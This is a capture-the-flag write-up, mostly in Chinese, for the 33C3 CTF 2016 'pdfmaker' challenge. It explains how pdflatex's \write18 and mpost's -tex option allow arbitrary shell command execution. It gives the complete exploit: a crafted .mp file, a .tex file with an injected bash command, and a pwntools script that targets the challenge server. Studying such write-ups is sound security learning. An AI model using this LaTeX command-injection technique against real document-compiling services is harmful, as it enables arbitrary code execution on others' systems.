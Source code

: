 ```yaml
---
title: "[33C3 CTF 2016] pdfmaker 75"
author: bruce30262
tags:
- Misc
- pdflatext
- 33C3 CTF 2016
categories:
- write-ups
date: '2016-12-31'
layout: post
---
```


## Info  
> Category: Misc  
> Point: 75  
> Author: bruce30262 @ BambooFox  
> 
> Description: 
> Just a tiny [application](https://gist.github.com/bruce30262/80b089e24d3a34862fe78892c63d8dcf), that lets the user write some files and compile them with pdflatex. 
> What can possibly go wrong?
> nc 78.46.224.91 24242

## Analyzing
根據題目給的原始碼，我們可以得知這是一個可以讓使用者進行讀寫以及編譯檔案的 service。

* `create`: 製作檔案，檔案類型有: `.log`, `.tex`, `.mb`, `.sty` & `.bib`
* `show`: 顯示指定的檔案內容
* `compile`: 使用 `pdflatext` 編譯一個檔案

解題的過程中 **mike** 找到了一個有用的連結: [Pwning coworkers thanks to LaTeX](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)

簡單來說就是透過製作惡意的 `.mp` 和 `.tex` 檔案，我們可以利用 `pdflatext` 在 compile 檔案的時候，透過執行 `mpost` 指令來達到執行任意 command 的效果。

## Solution
基本上只要照著連結裡的方式做即可:
1. create 一個惡意的 `.mp` 檔
2. create 一個惡意的 `.tex` 檔，將裡面的指令改為 `(cat${IFS}$(ls|grep${IFS}33C3))>qqq.log`。這行 command 會將 flag 的內容存到 qqq.log 裡頭
3. 透過 Compile 惡意的 `.tex` 檔來執行我們的 command
4. show qqq.log，得到 flag

final exploit:  

sss.mp:
```txt
verbatimtex
\documentclass{minimal}\begin{document}
etex beginfig (1) label(btex blah etex, origin);
endfig; \end{document} bye
```

aaa.tex:
```txt
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (cat${IFS}$(ls|grep${IFS}33C3))>qqq.log" "sss.mp"}
\end{document}
```

exp.py:
```python
from pwn import *

r = remote("78.46.224.91", 24242)

log.info("creating sss.mp...")
r.sendlineafter(">", "create mp sss")
r.recvline()
f = open("sss.mp", "r")
for line in f:
    r.sendline(line.strip())
r.sendline("\q")
f.close()

log.info("creating aaa.tex...")
r.sendlineafter(">", "create tex aaa")
r.recvline()
f = open("aaa.tex", "r")
for line in f:
    r.sendline(line.strip())
r.sendline("\q")
f.close()

r.sendlineafter(">", "compile aaa")
r.sendlineafter(">", "show log qqq")

r.interactive()
```

**Don't take LaTEX files from strangers!!**

flag: `33C3_pdflatex_1s_t0t4lly_s3cur3!`